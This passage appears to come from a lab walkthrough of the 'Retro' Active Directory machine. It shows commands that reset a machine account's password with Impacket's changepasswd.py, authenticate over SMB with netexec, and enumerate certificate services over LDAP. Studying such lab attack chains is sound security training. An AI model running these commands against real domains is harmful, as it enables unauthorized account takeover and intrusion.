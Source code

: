To fix this, we used `changepasswd.py` from `Impacket` to set a new password.

```powershell
changepasswd.py retro.vl/BANKING\$@10.10.79.94 -newpass 'Password123!' -p rpc-samr
```

![alt text](/assets/screenshots/Retro/13.png)

We then re-authenticated with the updated password, and it worked.

```powershell
nxc smb 10.10.79.94 -u "BANKING$" -p 'Password123!'
```

![alt text](/assets/screenshots/Retro/14.png)

With valid access confirmed using both TGT and password, we’re now ready to move to the next stage in the attack chain. We'll be switching between using the `TGT` and the `password`. This helps demonstrate how both methods work in real scenarios.

### ADCS Enumeration
we continued enumeration using `netexec` to check if `Active Directory Certificate Services (ADCS)` was deployed in the environment and the output revealed the presence of a certificate authority named `retro-DC-CA`.

Using `nextexec`

```powershell
nxc ldap 10.10.79.94 --use-kcache -M adcs
```

![alt text](/assets/screenshots/Retro/15.png)
